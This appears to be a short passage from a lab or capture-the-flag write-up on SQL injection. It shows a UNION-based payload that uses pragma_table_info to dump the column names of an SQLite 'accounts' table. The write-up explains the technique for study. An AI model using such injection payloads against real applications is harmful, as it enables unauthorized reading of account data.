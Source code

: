 ![sqli-dump-tables](./images/sqli-dump-tables.png)

The column names from the `accounts` table can be dumped using the payload,
```bash
514 union SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('accounts'); --
```
